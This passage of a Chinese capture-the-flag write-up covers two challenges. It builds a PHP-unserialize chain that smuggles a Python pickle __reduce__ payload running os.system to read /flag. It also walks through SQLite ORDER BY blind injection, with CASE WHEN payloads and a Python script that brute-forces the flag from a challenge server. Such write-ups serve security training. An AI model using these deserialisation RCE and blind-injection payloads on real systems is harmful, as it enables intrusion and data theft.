        if not os.path.exists(self.ROOT):
            print("==> no ROOT")
            r = 1
        if not os.path.exists(self.BIN):
            print("==> no BIN")
            r = 1
        if not os.path.exists(self.META):
            print("==> no META")
            r = 1
        return r == 0

    def load_bin(self):
        with open(self.BIN, "rb") as bf:
            return bf.read()

    def load_meta(self):
        with open(self.META, "r", encoding="utf-8", errors="ignore") as jf:
            return json.load(jf)

    def sig_check(self, meta, data):
        sig = meta.get("sig")
        ts = meta.get("ts")
        calc = hmac.new(self.SECRET, data, hashlib.sha256).hexdigest()

        if not isinstance(sig, str) or not hmac.compare_digest(sig, calc):
            print("==> sig check failed")
            return False

        if ts and (time.time() - float(ts) > 600):
            print("==> ts check failed")
            return False

        return True

    def read_out(self):
        if not os.path.exists(self.OUTS):
            raise FileNotFoundError(self.OUTS)
        with open(self.OUTS, "r", encoding="utf-8", errors="ignore") as of:
            content = of.read()
        return content or "喵喵喵?"

    def run(self):
        assert self.init()
        data = self.load_bin()

        try:
            obj = self._set_secret(data)
        except Exception as e:
            print("==> pickle load failed\n", e)
            if self.jmp:
                Games().gen_redirect()
            return

        meta = self.load_meta()
        assert self.sig_check(meta, data)

        print("==> obj => ", obj)

        payload = getattr(obj, 'payload', None)

        open(self.OUTS, "w").close()

        if isinstance(payload, (bytes, bytearray)):
            try:
                inner = pickle.loads(payload)
            except Exception as e:
                print("==> inner pickle load failed\n", e)
                if self.jmp:
                    Games().gen_redirect()
                return

        try:
            out = self.read_out()
        except Exception as e:
            print("==> no outs =>\n", e)
            if self.jmp:
                Games().gen_redirect()
            return

        print("==> out => ", out)
```

`_set_secret`函数中用Unpickler去进行反序列化数据，提取secret属性作为HMAC的密钥

`sig_check`函数是用来检查HMAC签名的，使用SECRET计算data的哈希

我们主要看一下主函数run

```python
    def run(self):
        assert self.init()
        data = self.load_bin()

        try:
            obj = self._set_secret(data)
        except Exception as e:
            print("==> pickle load failed\n", e)
            if self.jmp:
                Games().gen_redirect()
            return

        meta = self.load_meta()
        assert self.sig_check(meta, data)

        print("==> obj => ", obj)

        payload = getattr(obj, 'payload', None)

        open(self.OUTS, "w").close()

        if isinstance(payload, (bytes, bytearray)):
            try:
                inner = pickle.loads(payload)
            except Exception as e:
                print("==> inner pickle load failed\n", e)
                if self.jmp:
                    Games().gen_redirect()
                return

        try:
            out = self.read_out()
        except Exception as e:
            print("==> no outs =>\n", e)
            if self.jmp:
                Games().gen_redirect()
            return

        print("==> out => ", out)
```

读取/tmp/ssxl/write.bin的内容并进行pickle反序列化，随后读取/tmp/ssxl/write.meta元数据并验证签名

重点来了，这里会尝试获取pickle反序列化后的Set对象中的payload属性的值，并进行`pickle.loads(payload)`反序列化操作，这里的话就是没什么限制的

后面的就没什么好看的了，就是实例化一个ssxl对象并调用run去跑整个流程

## 最终思路

我们回到classes.php\Writer中

```php
class Writer {
    public $b64data = "";
    private $binfile = "/tmp/ssxl/write.bin";
    private $metafile = "/tmp/ssxl/write.meta";
    private $secret = "kaqikaqi";
    public $init = '喵喵喵?';

//    public function __construct($b64data="") {
//        $this->b64data = $b64data;
//    }

    public function __wakeup() {
        $this->{$this->init}();
    }

    private function init() {
        $dir = dirname($this->binfile);
        if (!is_dir($dir)) {
            @mkdir($dir, 0700, true);
        }
    }

    private function write_all() {
        if ($this->b64data === "") {
            return;
        }

        $raw = base64_decode($this->b64data);
        if ($raw === false) {
            return;
        }

        @file_put_contents($this->binfile, $raw);

        $sig = hash_hmac("sha256", $raw, $this->secret);
        $meta = json_encode([
            "sig" => $sig,
            "ts"  => time(),
        ]);
        @file_put_contents($this->metafile, $meta);
    }

    public function fetch() {
        $this->write_all();
        return "喵喵喵!";
    }
}
```

毋庸置疑这里的init属性肯定是需要设置为init的，wakeup触发后会初始化文件目录，然后就想一下如何去写文件吧

根据刚刚的分析可以知道，首先Python 读取 write.bin，⽤ Unpickler.load() 恢复 Set 对象，并且在HMAC验证后会再次反序列化Set对象中payload的内容

## 最终POC

需要恢复的Set对象内容

```python
import base64
import pickle

class RCE:
    def __reduce__(self):
        import builtins
        return (builtins.eval, ("__import__('os').system('cat /flag > /tmp/ssxl/outs.txt')",))

class Set:
    def __init__(self):
        self.secret = b""
        self.payload = b""

    def __setstate__(self, state):
        self.secret = state.get("secret", b"")
        self.payload = state.get("payload", b"")

if __name__ == "__main__":
    payload = pickle.dumps(RCE(), protocol=pickle.HIGHEST_PROTOCOL)
    set = Set()
    set.payload = payload
    set.secret = b"kaqikaqi"

    data = pickle.dumps(set, protocol=pickle.HIGHEST_PROTOCOL)
    base64_data = base64.b64encode(data).decode()
    print(base64_data)

```

然后在php中的POC

```php
<?php
class Cat {
}

class Writer {
    public $b64data = "gAWVnQAAAAAAAACMCF9fbWFpbl9flIwDU2V0lJOUKYGUfZQojAZzZWNyZXSUQwhrYXFpa2FxaZSMB3BheWxvYWSUQ2CABZVVAAAAAAAAAIwIYnVpbHRpbnOUjARldmFslJOUjDlfX2ltcG9ydF9fKCdvcycpLnN5c3RlbSgnY2F0IC9mbGFnID4gL3RtcC9zc3hsL291dHMudHh0JymUhZRSlC6UdWIu";
    private $binfile = "/tmp/ssxl/write.bin";
    private $metafile = "/tmp/ssxl/write.meta";
    private $secret = "kaqikaqi";
    public $init = 'init';
}

class Shark {
    public $ser = "";
}

class Pytools extends Cat {
    public $log = False;
    private $logbuf = "成功写入<br/>";
}

class Bridge {
    public $writer;
    public $shark;
}
$b = serialize(new Pytools());
$a = new Bridge();
$a -> writer = new Writer();
$a -> shark = new Shark();
$a -> shark -> ser = $b;
echo urlencode(serialize($a));
```



# kaqiWeaponShop

## #sqlite order by盲注



一共有三个参数

```http
?id=1&name=1&p=1
```

id是武器编号，name是武器名，p是页数，测试之后发现其实p参数是没用的，他只是一个翻页的功能，并没有进行sql查询

传入`?id=1&name=剑&p=1`的时候会返回杖1和剑1，编号分别是1和2，但我传入`?id=3&name=剑&p=1`的时候则会返回剑1和刀1，编号分别是2和3

那大概的sql语句应该是or+order了

```sqlite
SELECT id, name, img
FROM weapons
WHERE id = <id> OR name LIKE '%<name>%'
ORDER BY id
LIMIT 4 OFFSET <offset>
```

手测了一下，id是一个注入点但是只能接收数字，name的话估计是过滤了单双引号的

但是id传入算术表达式的时候发现并没有执行加减法，感觉这里id还是带了引号的，只不过过滤掉了字符

```sqlite
SELECT id, name, img
FROM weapons
WHERE id = '<id>' OR name LIKE '%<name>%'
ORDER BY id
LIMIT 4 OFFSET <offset>
```

但是where子语句中的id和name都没法打

一开始以为order后的id是固定的，后面发现这里也是可控的，传入name会根据name去排序，传入random()会随机排序

那么这里的话就是打order by注入了

判断注入点

```sql
?id=case when 1 then id else -id end	顺序排序
?id=case when 0 then id else -id end	倒序排序
```

然后打注入就行了

```sql
?id=case when ((select 1 from flag limit 1)=1) then id else -id end	判断是否存在flag表
?id=case when ((select flag from flag limit 1) is not null) then id else -id end	判断flag列是否存在且不为空
?id=case when ((select length(flag) from flag limit 1)>42) then id else -id end		顺序
?id=case when ((select length(flag) from flag limit 1)>43) then id else -id end		倒序，所以字段值为43
```

接着就是爆破flag了，可以发现这里很多函数都被禁了，但是可以用sqlite的一个特性，类似于php的弱比较，直接做字符串排序比较

```python
import requests
import re
import time

url = "http://challenge.imxbt.cn:31395/"

result = ""
max_len = 100

charset = "-0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz{}"


def is_true(payload):
    params = {
        "id": payload,
        "name": "",
        "p": 1,
    }

    r = requests.get(url, params=params, timeout=10)
    text = r.text

    ids = re.findall(r'/static/(\d+)\.jpg', text)

    if ids[:4] == ["1", "2", "3", "4"]:
        return True

    if ids[:4] == ["8", "7", "6", "5"]:
        return False

    print("[!] unexpected response:", ids, payload)
    raise SystemExit

# 先二分长度
head = 1
tail = max_len

while head < tail:
    mid = (head + tail) // 2

    payload = (
        f"case when ((select length(flag) from flag limit 1)>{mid}) then id else -id end"
    )

    print("length payload:", payload)

    if is_true(payload):
        head = mid + 1
    else:
        tail = mid

    time.sleep(0.03)

length = head
print("[+] length =", length)


# 再按前缀比较恢复字符串
for i in range(length):
    head = 0
    tail = len(charset) - 1
    best = charset[0]

    while head <= tail:
        mid = (head + tail) // 2
        ch = charset[mid]

        test = result + ch

        payload = (
            f"case when ((select flag from flag limit 1)>='{test}') then id else -id end"
        )

        print("payload:", payload)

        if is_true(payload):
            best = ch
            head = mid + 1
        else:
            tail = mid - 1

        time.sleep(0.03)

    result += best
    print(result)

print("flag: ", result)
```


